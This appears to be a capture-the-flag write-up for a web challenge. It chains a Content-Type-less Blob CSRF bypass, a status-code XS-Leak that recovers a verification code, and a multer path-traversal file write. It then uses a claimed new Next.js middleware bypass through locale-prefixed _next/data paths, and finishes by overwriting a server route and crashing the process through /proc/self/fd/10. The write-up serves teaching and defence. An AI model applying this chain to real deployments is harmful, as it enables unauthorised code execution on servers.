



       <font size="10">Portalistic</font>

18<sup>th</sup> May 2026

Prepared By: `lordrukie`

Challenge Author(s): `lordrukie`

​Difficulty: <font color=red>Hard</font>

# Synopsis

supplier registration + admin review bot interaction -> CSRF protection bypass -> XS-Leak audit oracle leaks supplier verification code -> verified supplier account access -> document upload path traversal enables arbitrary file write -> route middleware bypass 0day -> Next.js restart triggers server-side code execution

## Description

Lia Markovic identified a key financial platform in Korvia that is used by their government, military, and suppliers to process payments and move resources. The system is run by Korvia’s central financial authority and plays a central role in their economy. Intelligence suggests that Gilded Weaver uses it to fund operations and support ongoing attacks.. Nightfall’s mission is to break into the platform, find a way in, and take control of part of the system. By disrupting how the system works from the inside, it creates operational instability and weakens their ability to continue attacks.

## Skills Required

- Web application enumeration
- Reading Node.js and Next.js source code
- Understanding CSRF and cookie delivery rules
- Building XS-Leak and oracle-based attacks
- Exploiting path traversal through file upload primitives
- Basic Linux process and `/proc` knowledge

## Skills Learned

- How to bypass a improper CSRF Protections
- How to build and validate side-channel or oracle-based attacks from observable application behavior
- How to identify a parser discrepancies between app layers.
- How to analyze patched vulnerabilities and search for incomplete fixes or related bypasses
- How to trace normalization and routing behavior in modern frameworks to uncover new security issues

# Enumeration

Start by looking at the application structure:

```text
challenge/
├── config/
├── scripts/
├── src/
│   ├── lib/
│   ├── middleware.js
│   ├── pages/
│   └── utils/
└── Dockerfile
```

The public page shows the main portal with sign-in and registration links.


The login page is a standard email and password form.


After registration, we reach `/verify-account`, where the application asks for an email and verification code.


## Analyzing the source code

Let's start by analyzing the deployment files. In `challenge/src/package.json`, we can observe the application framework and the main dependencies:

```json
{
  "scripts": {
    "build": "next build",
    "start": "next start -H 0.0.0.0 -p 3000"
  },
  "dependencies": {
    "next": "16.2.6",
    "react": "19.2.6",
    "mysql2": "3.22.3",
    "multer": "2.1.1",
    "pdfkit": "0.18.0",
    "playwright": "1.60.0"
  }
}
```

This confirms a Next.js application with MariaDB access through `mysql2`, file upload handling through `multer`, PDF generation through `pdfkit`, and Playwright for browser automation.

In `challenge/Dockerfile`, we can observe the container services and runtime setup:

```dockerfile
RUN apt-get update \
  && DEBIAN_FRONTEND=noninteractive apt-get install -y --fix-missing -o Acquire::Retries=3 mariadb-server mariadb-client nginx supervisor \
  && rm -rf /var/lib/apt/lists/*
...
RUN npx playwright install --with-deps firefox
...
RUN npm run build
```

So the challenge container bundles the database, nginx, supervisor, and a Firefox browser for the bot.

In `challenge/config/supervisord.conf`, we can observe how the services are started:

```ini
[program:mariadb]
command=/usr/sbin/mariadbd ...

[program:next]
command=/bin/sh -lc "npx next start -H 127.0.0.1 -p 3001"
autorestart=true

[program:nginx]
command=/usr/sbin/nginx -c /etc/nginx/nginx.conf -g "daemon off;"
autorestart=true
```

MariaDB, Next.js, and nginx all run under `supervisord`, and the process is configured to restart automatically.

The challenge uses `src/pages/` with a custom `_app.js`, so this is a Pages Router application:

```javascript
import { appWithTranslation } from 'next-i18next/pages';
...
import nextConfig from '../next.config';
...
export default appWithTranslation(MyApp, { i18n: nextConfig.i18n });
```

The i18n configuration is also enabled in `challenge/src/next.config.js`:

```javascript
module.exports = {
  i18n: {
    defaultLocale: 'en',
    locales: ['en', 'id'],
    localeDetection: false
  }
};
```

Let's continue with the application flow. In `challenge/src/lib/pageProps.js`, we can observe the access checks for supplier pages:

```javascript
function redirectForUser(user, roles = []) {
  if (!user) {
    return redirect('/login');
  }

  if (user.role !== 'admin' && !user.verified) {
    return redirect(`/verify-account?email=${encodeURIComponent(user.email)}`);
  }

  if (user.role !== 'admin' && !user.approved) {
    return redirect('/login');
  }
```

From the access checks above, two states are required before supplier pages are reachable: `verified` and `approved`.

`challenge/src/lib/services/users.js` shows how supplier accounts are created. New suppliers start with both flags disabled:

```javascript
function buildSupplierProfile(input) {
  return {
    ...
    role: 'supplier',
    ...
    verified: false,
    approved: false
  };
}
```

The registration handler is in `challenge/src/pages/api/auth/signup.js`. It creates the supplier account and generates a verification code:

```javascript
if (!ensureMethod(req, res, ['POST'])) return;
if (!guardCsrf(req, res)) return;
if (!(await parseJsonBody(req, res))) return;
...
const user = await createSupplierUser({
  displayName: String(displayName).trim(),
  organizationName: String(organizationName).trim(),
  username: String(username).trim().toLowerCase(),
  email: String(email).trim().toLowerCase(),
  ...
  locale: 'en',
  verificationCode: generateToken(4).toUpperCase()
});
```

The same request wrapper appears in the other state-changing endpoints as well, including verification, admin review requests, supplier approval, and audit report generation:

```javascript
if (!ensureMethod(req, res, ['POST'])) return;
if (!guardCsrf(req, res)) return;
if (!(await parseJsonBody(req, res))) return;
```

So this is a good place to inspect the shared CSRF protection. In `challenge/src/lib/request.js`, `guardCsrf()` only delegates to `isForbiddenFormSubmission()`:

```javascript
function guardCsrf(req, res) {
  if (isForbiddenFormSubmission(req)) {
    return fail(res, 403, 'The request could not be accepted from this origin.');
  }

  return true;
}
```

The decision is implemented in `challenge/src/lib/csrf.js`:

```javascript
function isForbiddenFormSubmission(requestLike) {
  return (
    isProtectedFormMime(requestLike) &&
    isUnsafeMethod(requestLike.method) &&
    originHostDiffersFromHost(requestLike)
  );
}
```

The MIME list is fixed:

```javascript
const PROTECTED_FORM_CONTENT_TYPES = [
  'application/json',
  'application/x-www-form-urlencoded',
  'multipart/form-data',
  'text/plain',
  'application/octet-stream'
];
```

And the origin check is only a host comparison:

```javascript
function originHostDiffersFromHost(requestLike) {
  const origin = readHeader(requestLike.headers, 'origin');
  const host = readHeader(requestLike.headers, 'host');
  ...
  return new URL(origin).host !== host;
}
```

This is the full CSRF protection used by the backend. There is no token and no per-request nonce. The request is only blocked when all three conditions are true at the same time. If any one of them fails, the handler continues.

The verification step is handled in `challenge/src/pages/api/auth/verify-account.js` and `challenge/src/lib/services/users.js`. Once the correct email and code are submitted, the backend flips the `verified` flag:

```javascript
async function verifySupplierCode(email, code) {
  const target = await findSupplierByVerification(email, code);
  ...
  await db.update(users).set({ verified: true }).where(eq(users.id, target.id));
  return findUserById(target.id);
}
```

Approval is separate. The endpoint is `challenge/src/pages/api/admin/suppliers/approve.js`:

```javascript
const user = await requireApiUser(req, res, ['admin']);
...
const { id } = req.body || {};
...
await verifySupplierUser(Number(id));
```

This means approval itself happens through an authenticated admin-only backend action.

`challenge/src/lib/services/users.js` also shows that approval only succeeds if the supplier has already been verified:

```javascript
if (target.length === 0 || !target[0].verified) {
  const error = new Error('Supplier verification is still pending.');
  error.statusCode = 409;
  throw error;
}

return approveSupplier(userId);
```

So the account registration flow was:

1. Register as supplier
2. Perform verification so the `verified = true`
3. Perform admin approval so  `approved = true`.

Separate from that, the application has a review flow in `challenge/src/pages/api/access-requests/index.js`. It accepts `email`, `code`, and `companyUrl`, then starts a bot:

```javascript
const child = spawn(process.execPath, ['/app/utils/bot.js', companyUrl], {
  cwd: '/app',
  env: process.env,
  stdio: ['ignore', 'pipe', 'pipe']
});
```

`challenge/src/utils/bot.js` shows what that process does:

```javascript
await loginAsAdmin(page);
...
await page.goto(urlToVisit, {
  waitUntil: 'load',
  timeout: 10000
});
```

The bot logs in as the administrator and visits the supplied page in an authenticated session.

The audit backend starts in `challenge/src/pages/api/admin/audit/report.js`:

```javascript
const user = await requireApiUser(req, res, ['admin']);
...
const results = await generateAuditReport(user.id, req.body || {});
```

`challenge/src/lib/services/auditReports.js` shows how those filters are processed. Each filter becomes a SQL `LIKE` predicate:

```javascript
const predicates = normalized.filters.map((entry) => like(auditFilterColumns.get(entry.key), `%${entry.value}%`));
```

If matches exist, the service renders a PDF and stores it:

```javascript
const buffer = await renderAuditPdf({
  filters: base.filters,
  users: reportUsers
});

const storedReport = await storeAuditReport(createdByUserId, base.filters, buffer, reportUsers.length);
```

The reports are served back by `challenge/src/pages/api/admin/audit/reports/[id].js`:

```javascript
res.setHeader('Content-Type', 'application/pdf');
res.setHeader('Content-Disposition', `inline; filename="${report.file_name}"`);
return res.status(200).send(report.buffer);
```

The audit flow is: accept filters, search supplier records, render matching rows into a PDF, then store the report for later access.

One thing interesting is that `/documents` page itself handles `POST` requests while other endpoint have their own API handler:

```javascript
if (context.req.method === 'POST') {
  const user = await requireSupplierPageUser(context);
  ...
  const parsed = await parseDocumentUpload(context.req, context.res);
  await saveDocumentUpload(user, parsed, { status: 'submitted' });
}
```

The upload handling is in `challenge/src/lib/services/documents.js`:

```javascript
const storage = multer.diskStorage({
  destination: async (_req, _file, cb) => {
    await fs.mkdir(uploadDirectory, { recursive: true });
    cb(null, uploadDirectory);
  },
  filename: (_req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({
  storage,
  preservePath: true
});
```

There is also a dedicated middleware for the document route in `challenge/src/middleware.js` which blocks access to the upload feature due to known security issues:

```javascript
import { NextResponse } from 'next/server';

export function middleware(request) {

  if (request.method !== 'POST') {
    return NextResponse.next();
  }

  // We identified some security issues with the file upload, so this feature is
  // disabled for the time being while the backend flow is being reviewed.
  return NextResponse.json(
    {
      ok: false,
      message: 'File uploads are temporarily unavailable.'
    },
    { status: 403 }
  );
}

export const config = {
  matcher: ['/documents', '/:locale/documents']
};

```

# Solution

## Finding the vulnerability

The first problem appears right after registration. We do not have a usable supplier account yet. The backend requires both `verified` and `approved`, and the verification code is only known on the server side. So the first objective is to recover that code from an admin-side feature.

### Reaching admin functionality through the review bot

At this point, we have a admin bot visiting our site. However we do not have an XSS within the application. That being said, we can still perform a CSRF attacks since it accept external URL

However we have several issues:

1. modern browsers often treat cookies without `SameSite` as `Lax` by default
2. the backend implements a custom CSRF protection

### First obstacle: Firefox and missing `SameSite`

In `lib/auth/session.js`, the cookie is set like this:

```javascript
function sessionCookieOptions(expires) {
  return {
    httpOnly: true,
    secure: false,
    path: '/',
    expires
  };
}
```

The important point is that `SameSite` is not set at all. Most modern browser enforce `SameSite` attribute to `Lax` by default if the server return a missing `SameSite` attribute.

If the browser were enforcing it, then cross-site `POST` requests from our page would be much less useful. Lucklify for us, Firefox does not automatically set `SameSite` attribute to `Lax` (different than chromium-based browser). This behavior can be seen within `network.cookie.sameSite.laxByDefault` within the `about:config`. 



This means we can safely send a cross-site requests from our controlled page with an admin credentials using `credentials: 'include'`.

### Second obstacle: the custom CSRF protection

The next problem is the backend CSRF guard. The sensitive `POST` handlers all call the same wrapper:

```javascript
if (!ensureMethod(req, res, ['POST'])) return;
if (!guardCsrf(req, res)) return;
if (!(await parseJsonBody(req, res))) return;
```

The protection happening within `lib/csrf.js`:

```javascript
function isForbiddenFormSubmission(requestLike) {
  return (
    isProtectedFormMime(requestLike) &&
    isUnsafeMethod(requestLike.method) &&
    originHostDiffersFromHost(requestLike)
  );
}
```

The `isUnsafeMethod()` whether the method is one of the unsafe verbs:

```javascript
function isUnsafeMethod(method) {
  return UNSAFE_METHODS.has(String(method ?? '').toUpperCase());
}
```

`originHostDiffersFromHost()` compares the `Origin` header and the `Host` header:

```javascript
function originHostDiffersFromHost(requestLike) {
  const origin = readHeader(requestLike.headers, 'origin');
  const host = readHeader(requestLike.headers, 'host');
  ...
  return new URL(origin).host !== host;
}
```

And finally `isProtectedFormMime()` checks whether the request uses one of the protected MIME types:

```javascript
function isProtectedFormMime(requestLike) {
  return hasMimeType(requestLike, ...PROTECTED_FORM_CONTENT_TYPES);
}
```

The actual MIME parsing happens here:

```javascript
function hasMimeType(requestLike, ...types) {
  const raw = readHeader(requestLike.headers, 'content-type');
  const type = raw?.split(';', 1)[0].trim() ?? '';
  return types.includes(type.toLowerCase());
}
```

The important logic issues here is the protection only happend when all checking condition are true. If any one of them fails, the CSRF check is skipped and the request continues.

Each part of this condition can fail for a different reason.

1. `isUnsafeMethod` return false for safe methods such as `GET`. Since we require a POST method, this can't be bypassed

2. `originHostDiffersFromHost()` returns false when the origin host matches the target host. Since we're sending a cross-origin requests, we can't also bypass this.

3. `isProtectedFormMime()` returns false if the `Content-Type` header is missing, empty, or set to a value outside the fixed list. This are interesting.

If we can somehow sending a requests without content-type header, the whole validation will be bypassed.

### Sending a cross-site `POST` without `Content-Type`

We still need to send a body, so the next step is finding a browser behavior that gives us a `POST` request without falling into one of those protected MIME types.

In order to to that, we will use `Blob`. When a `Blob` is created without an explicit MIME type, its type is empty. In this challenge, sending the JSON body as `new Blob([body])` avoids the protected `Content-Type` values that the backend is checking for.

For example, we can use following fetch with a Blob.

```javascript
const body = JSON.stringify({
  userField: ['email', 'verificationCode'],
  userValue: [targetEmail, candidatePattern]
});

await fetch(`${TARGET_BASE_URL}/api/admin/audit/report`, {
  method: 'POST',
  mode: 'no-cors',
  credentials: 'include',
  body: new Blob([body])
});
```

Browser will then send following requests:

```http
POST /api/admin/audit/report HTTP/1.1
Host: 127.0.0.1:3000
Origin: http://ATTACKER-HOST:8000
Cookie: ktx_session=<admin-session>
Content-Length: ...

{"userField":["email","verificationCode"],"userValue":["solver@example.kv","A_______"]}
```

This request still contains the admin session cookie (since there's no SameSite) and the JSON body (without getting a preflight requests or CORS issues) without a Content-Type header. Exactly what we needed :)

### Choosing an admin feature to leak the code

Once we have a working CSRF path, we still need a useful admin endpoint. The upload feature is only available to suppliers, while the bot runs as admin, so the first thing we need from the admin side is our own verification code.

The audit feature is the best candidate. The backend accepts arbitrary user filters and turns them into SQL `LIKE` predicates. One of the searchable fields is the verification code, which allows iterative guessing against the attacker-controlled supplier record by fixing the email and varying the code pattern.

### The PDF endpoint as an XS-Leak

Calling the audit endpoint is not enough by itself because we cannot read the cross-origin JSON response. There are no CORS headers, so the response body is not available to our page.

The useful bug appears in the stored PDF endpoint. If a report ID exists but we are not authenticated, the endpoint returns `403`. If the report does not exist, it returns `404`.

The behavior comes from `challenge/src/pages/api/admin/audit/reports/[id].js`:

```js
const report = await readAuditReport(reportId);
if (!report) {
  return res.status(404).json({ ok: false, message: 'Audit report not found.' });
}

const user = await getSessionUser(req);
if (!user || user.role !== 'admin') {
  return res.status(403).json({ ok: false, message: 'Insufficient permissions.' });
}
```

This status-code asymmetry creates a reliable side channel:

1. use CSRF to call the admin audit endpoint
2. if the search matches, a new report is generated
3. probe the next report ID
4. `403` means the report exists
5. `404` means the report was never created

So the PDF endpoint becomes an XS-Leak / side-channel oracle.

### Recovering the code one character at a time

To leak the verification code, we do not need the whole value at once. SQL `LIKE` gives a convenient one-character wildcard: `_`.

That means we can focus on one position at a time:

- `A_______`
- `B_______`
- `C_______`

Once the first character is known, we move to the next position:

- `AB______`
- `AC______`
- `AD______`

Each time, a matching query creates a new report. A non-matching query does not. We repeat this process until the entire verification code is recovered from the admin side.

### Verifying and approving our own supplier account

Once the full code is known, we can submit it to `/api/auth/verify-account` and set our own account to `verified = true`.

We still need `approved = true`, so we send another CSRF request, this time to `/api/admin/suppliers/approve`, with our supplier ID. That gives us a fully usable supplier account.

### Turning the upload bug into an arbitrary file write

Now we can access the supplier document flow. The upload bug is in `lib/services/documents.js`:

```javascript
const storage = multer.diskStorage({
  destination: async (_req, _file, cb) => {
    await fs.mkdir(uploadDirectory, { recursive: true });
    cb(null, uploadDirectory);
  },
  filename: (_req, file, cb) => {
    cb(null, file.originalname);
  }
});

const upload = multer({
  storage,
  preservePath: true
});
```

In practice, this gives direct arbitrary file-write capability:

1. `preservePath: true` keeps path components from the original filename
2. the filename callback writes `file.originalname` directly
3. there is no sanitization before the path is used

So path traversal in the upload filename lets us write outside the upload directory.

### The next obstacle: middleware blocks `POST /documents`

That still leaves one obstacle. The document route is protected by middleware, and `POST` requests to `/documents` are blocked.

```javascript
export const config = {
  matcher: ['/documents', '/:locale/documents']
};
```

If we remember, current application are using Page Router with i18n and also implement a path-based middleware protection.

The setup is very close to [GHSA-36qx-fr4f-26g5](https://github.com/vercel/next.js/security/advisories/GHSA-36qx-fr4f-26g5) where it also uses middleware-based protection, path-based routing, and i18n-enabled pages.

Based on the advisory, an attacker can bypass such restriction by using following URL.

```text
/_next/data/<BUILD_ID>/admin.json
```

The issue exists because Next.js builds middleware matchers around a locale-aware pathname, but `_next/data` requests can be normalized differently before middleware matching finishes.

In order to understand how this vuln existt and to find another variant, let's deep dive into the nextjs respective handler for middleware and i18n.

In `get-page-static-info.ts`, matcher generation adds both the locale segment and the optional `_next/data` segment:

```ts
let { source, ...rest } = matcher

const isRoot = source === '/'

if (i18n?.locales && matcher.locale !== false) {
  source = `/:nextInternalLocale((?!_next/)[^/.]{1,})${
    isRoot ? '' : source
  }`
}

source = `/:nextData(_next/data/[^/]{1,})?${source}${
  isRoot
    ? `(${nextConfig.i18n ? '|\\.json|' : ''}/?index|/?index\\.json)?`
    : '{(\\.json)}?'
}`
```

So once i18n is enabled, middleware expects a locale-aware pathname shape.

For normal page requests, Next.js canonicalizes a locale-less path into the default locale before middleware matching. In `resolve-routes.ts`, this happens here:

```ts
if (
  !initialLocaleResult.detectedLocale &&
  !initialLocaleResult.pathname.startsWith('/_next/')
) {
  parsedUrl.pathname = addPathPrefix(
    initialLocaleResult.pathname === '/'
      ? `/${defaultLocale}`
      : addPathPrefix(
          initialLocaleResult.pathname || '',
          `/${defaultLocale}`
        ),
    hadBasePath ? config.basePath : ''
  )
}
```

During ordinary navigation, `/documents` is effectively turned into `/en/documents`, so middleware sees the canonical locale-aware path it expects.

The problem starts when the request comes through `/_next/data`. In the same `resolve-routes.ts`, the `_next/data` branch strips the data prefix but does not restore the locale-aware canonical form:

```ts
if (route.name === 'middleware_next_data' && parsedUrl.pathname) {
  if (fsChecker.getMiddlewareMatchers()?.length) {
    let normalized = parsedUrl.pathname
    ...
    if (normalizers.data.match(normalized)) {
      updated = true
      addRequestMeta(req, 'isNextDataReq', true)
      normalized = normalizers.data.normalize(normalized, true)
    }

    if (config.i18n) {
      const curLocaleResult = normalizeLocalePath(
        normalized,
        config.i18n.locales
      )

      if (curLocaleResult.detectedLocale) {
        addRequestMeta(req, 'locale', curLocaleResult.detectedLocale)
      }
    }

    if (updated) {
      parsedUrl.pathname = normalized
    }
  }
}
```

That explains the first variant:

```text
/_next/data/<BUILD_ID>/admin.json
  -> `/_next/data/<BUILD_ID>` is stripped
  -> request continues as /admin
  -> middleware expected /<defaultLocale>/admin
  -> middleware is skipped
```

The next question is whether the mismatch only exists for locale-less `_next/data` paths, or whether locale-prefixed data paths can also desynchronize middleware matching and page resolution.

To answer that, the next place to inspect is the later route-resolution path in the filesystem checker. In `setupFsCheck()`, `handleLocale()` strips the locale first:

```ts
const handleLocale = (pathname: string, locales?: string[]) => {
  let locale: string | undefined

  if (i18n) {
    const i18nResult = normalizeLocalePath(pathname, locales || i18n.locales)

    pathname = i18nResult.pathname
    locale = i18nResult.detectedLocale
  }
  return { locale, pathname }
}
```

That logic is then used inside `getItem()`. Before the page/data special case is checked, the current path is passed through `handleLocale()`:

```ts
if (i18n) {
  const localeResult = handleLocale(
    itemPath,
    isDynamicOutput
      ? undefined
      : [
          i18n?.defaultLocale,
          ...(i18n.domains?.map((item) => item.defaultLocale) || []),
        ]
  )

  if (localeResult.pathname !== curItemPath) {
    curItemPath = localeResult.pathname
    locale = localeResult.locale
  }
}
```

Later, the Pages Router data-route branch checks for the `/_next/data/<buildId>/` prefix and rewrites it back into the page route:

```ts
const nextDataPrefix = `/_next/data/${buildId}/`

if (
  type === 'pageFile' &&
  curItemPath.startsWith(nextDataPrefix) &&
  curItemPath.endsWith('.json')
) {
  items = nextDataRoutes
  curItemPath = curItemPath.substring(nextDataPrefix.length - 1)
  curItemPath = curItemPath.substring(
    0,
    curItemPath.length - '.json'.length
  )
  const curLocaleResult = handleLocale(curItemPath)
  curItemPath =
    curLocaleResult.pathname === '/index'
      ? '/'
      : curLocaleResult.pathname
}
```

This is the key difference. In `resolve-routes.ts`, `_next/data` handling happens before locale canonicalization is restored. In `filesystem.ts`, locale stripping already happened earlier, and then the data prefix is interpreted later. That means the same request can be normalized in a different order depending on which stage is looking at it.

Once the locale is stripped first, a path of the form:

```text
/<locale>/_next/data/<BUILD_ID>/documents.json
```

can collapse back into the same internal data route that the page resolver accepts, even though middleware already saw a different, non-canonical pathname earlier.

Following that code path gives the concrete challenge variant:

```text
/en/_next/data/<BUILD_ID>/documents.json
```

The practical flow is:

```text
/en/_next/data/<BUILD_ID>/documents.json
  -> incoming path is not the canonical page route /en/documents
  -> middleware sees the non-canonical locale/data shape first
  -> middleware does not match the intended protected page route
  -> filesystem resolution strips /en through handleLocale()
  -> pageFile resolution then strips /_next/data/<BUILD_ID> and `.json`
  -> request resolves back to /documents
  -> getServerSideProps() for /documents still handles the POST
```

The issue happens because middleware matching and final page resolution are not using the same canonical pathname. Middleware expects the locale-aware page route, but the `_next/data` pipeline can reach the same page through a different pathname first.

In the challenge, that is enough to make `/en/_next/data/<BUILD_ID>/documents.json` reach `parseDocumentUpload()` and `saveDocumentUpload()` even though `/documents` and `/:locale/documents` are supposed to be blocked by middleware.

### Restarting the service to execute the overwritten code

Once the middleware is bypassed, the file write is enough to overwrite any server-side JavaScript file. We can write a payload into a compiled API route, but we still need the process to reload that file.

The deployment already gives the answer. `supervisord.conf` sets `autorestart=true` for the Next.js service, so a crash is enough to make the process come back and reload the overwritten code.

That leaves one final problem: how to crash Next.js from the write primitive.

### Crashing Next.js through `/proc/self/fd/10`

Inspired by prior Node.js and libuv descriptor abuse ([https://hackerone.com/reports/2260337](https://hackerone.com/reports/2260337)) , we can target a live file descriptor under `/proc/self/fd/10`. In this challenge, writing at least 16 bytes to that descriptor is enough to crash the Next.js process.

So the final sequence is:

1. overwrite a JavaScript file with our payload
2. write random bytes into `/proc/self/fd/10`
3. crash the Next.js process
4. let `supervisord` restart it
5. trigger the overwritten route and get code execution

## Summary

A final summary of the attack is:

1. Register a new supplier account through `/api/auth/signup`.
2. Submit an admin review request pointing `companyUrl` to our page.
3. On our page, issue cross-site `POST` requests with `Blob` bodies and no explicit protected `Content-Type`.
4. Abuse `/api/admin/audit/report` to test candidate verification-code patterns.
5. Observe whether a new report was created by probing the numeric PDF endpoints.
6. Recover all 8 characters of the supplier verification code.
7. Verify the supplier account with `/api/auth/verify-account`.
8. Trigger a second cross-site `POST` to `/api/admin/suppliers/approve` for our supplier ID.
9. Log in as the now-approved supplier and extract the Next.js build ID from the login page.
10. Upload a backdoor into `../../.next/server/pages/api/auth/logout.js` through `/en/_next/data/<buildId>/documents.json`.
11. Upload arbitrary data into `../../../proc/self/fd/10` to crash the running Node.js process.
12. Wait for `supervisord` to restart the service.
13. Request `/api/auth/logout` and read the flag from the overwritten route.


## References

- [https://nastystereo.com/security/cross-site-post-without-content-type.html](https://nastystereo.com/security/cross-site-post-without-content-type.html)
- [https://book.jorianwoltjer.com/web/client-side/cross-site-request-forgery-csrf](https://book.jorianwoltjer.com/web/client-side/cross-site-request-forgery-csrf)
- [https://hackerone.com/reports/2260337](https://hackerone.com/reports/2260337)
- [https://github.com/vercel/next.js/security/advisories/GHSA-36qx-fr4f-26g5](https://github.com/vercel/next.js/security/advisories/GHSA-36qx-fr4f-26g5)
